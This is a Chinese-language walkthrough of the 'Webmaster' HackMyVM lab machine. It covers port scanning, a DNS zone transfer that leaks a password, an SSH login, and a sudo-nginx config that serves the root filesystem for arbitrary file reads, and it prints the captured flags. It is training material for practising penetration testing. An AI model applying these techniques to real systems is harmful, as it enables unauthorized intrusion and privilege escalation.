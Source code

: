 # Webmaster

:::note

[Linux VM] [Tested on VirtualBox] created by || sml

⏲️ Release Date // 2020-12-05

✔️ MD5 // 218365d6a1fab7967e1e43364bb80be3

☠ Root // 166

💀 User // 173

📝Notes //
Hack and Fun. Tested on Virtualbox.

:::

## 靶机启动

![靶机启动](img/image_20231233-163352.png)

靶机 IP：

```plaintext
192.168.56.115
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.115
Host is up (0.00053s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 6d7ed2d5d04536d7c9ed3e1d5c86fbe4 (RSA)
|   256 049d9adeaf31331c7c244a973876f5f7 (ECDSA)
|_  256 b08cedea130f032af3608ac3ba684abe (ED25519)
53/tcp open  domain  (unknown banner: not currently available)
| fingerprint-strings:
|   DNSVersionBindReqTCP:
|     version
|     bind
|_    currently available
| dns-nsid:
|_  bind.version: not currently available
80/tcp open  http    nginx 1.14.2
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.2
MAC Address: 08:00:27:DB:73:D5 (Oracle VirtualBox virtual NIC)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 探测 web 服务

尝试直接访问

![访问 /](img/image_20231210-181025.png)

检查原始返回

```bash
┌─[randark@randark-Parrot]─[~]
└──╼ $http get 192.168.56.115
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html
Date: Fri, 29 Dec 2023 08:38:01 GMT
ETag: W/"5fcb5787-39"
Last-Modified: Sat, 05 Dec 2020 09:48:55 GMT
Server: nginx/1.14.2
Transfer-Encoding: chunked

<img src="comic.png" alt="comic">
<!--webmaster.hmv-->
```

在其中发现一个疑似域名的字符串

```plaintext
webmaster.hmv
```

结合之前端口扫描发现的 DNS 服务，怀疑可能做了域名解析，添加 hosts 解析记录

```plaintext
# Host addresses
127.0.0.1  localhost
127.0.1.1  randark-Parrot
::1        localhost ip6-localhost ip6-loopback
ff02::1    ip6-allnodes
ff02::2    ip6-allrouters

192.168.56.115 webmaster.hmv
```

然后尝试访问 `webmaster.hmv` ，发现域名并非可以解析的域名，怀疑得通过 DNS 服务进行查询

## 探测 DNS 服务

```plaintext title="dig axfr @192.168.56.115 webmaster.hmv"
; <<>> DiG 9.18.12-1~bpo11+1-Debian <<>> axfr @192.168.56.115 webmaster.hmv
; (1 server found)
;; global options: +cmd
webmaster.hmv.          604800  IN      SOA     ns1.webmaster.hmv. root.webmaster.hmv. 2 604800 86400 2419200 604800
webmaster.hmv.          604800  IN      NS      ns1.webmaster.hmv.
ftp.webmaster.hmv.      604800  IN      CNAME   www.webmaster.hmv.
john.webmaster.hmv.     604800  IN      TXT     "Myhiddenpazzword"
mail.webmaster.hmv.     604800  IN      A       192.168.0.12
ns1.webmaster.hmv.      604800  IN      A       127.0.0.1
www.webmaster.hmv.      604800  IN      A       192.168.0.11
webmaster.hmv.          604800  IN      SOA     ns1.webmaster.hmv. root.webmaster.hmv. 2 604800 86400 2419200 604800
;; Query time: 0 msec
;; SERVER: 192.168.56.115#53(192.168.56.115) (TCP)
;; WHEN: Fri Dec 29 18:25:41 CST 2023
;; XFR size: 8 records (messages 1, bytes 274)
```

发现以下记录

```plaintext
john.webmaster.hmv. --- "Myhiddenpazzword"
```

怀疑是一对凭据

## 凭据利用

```bash
┌─[randark@randark-Parrot]─[~]
└──╼ $pwncat-cs john@192.168.56.115
[18:30:07] Welcome to pwncat 🐈!                                                                                                                         __main__.py:164
Password: ****************
[18:30:11] 192.168.56.115:22: normalizing shell path                                                                                                      manager.py:957
[18:30:12] 192.168.56.115:22: registered new host w/ db                                                                                                   manager.py:957
(local) pwncat$ back
(remote) john@webmaster:/home/john$ whoami
john
```

## user pwned

```bash
(remote) john@webmaster:/home/john$ cat user.txt
HMVdnsyo
```

## 提权探测

```plaintext title="sudo -l"
Matching Defaults entries for john on webmaster:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User john may run the following commands on webmaster:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/bin/umount
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
```

```plaintext title="getcap -r / 2>/dev/null"
/usr/bin/ping = cap_net_raw+ep
```

可以发现 `nginx` 可以借助 `sudo` 以 root 权限执行

## 尝试提权至任意文件读取

结合 `nginx` 的特性，尝试将根目录进行映射

```plaintext
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 8080;
        root /;
        autoindex on;
    }
}
```

然后使用此配置文件启动 nginx

```bash
(remote) john@webmaster:/home/john$ sudo /usr/sbin/nginx -c /home/john/root.conf
```

即可实现任意文件读取

![访问 :8080](img/image_20231244-184446.png)

## root pwned

```plaintext
HMVnginxpwnd
```
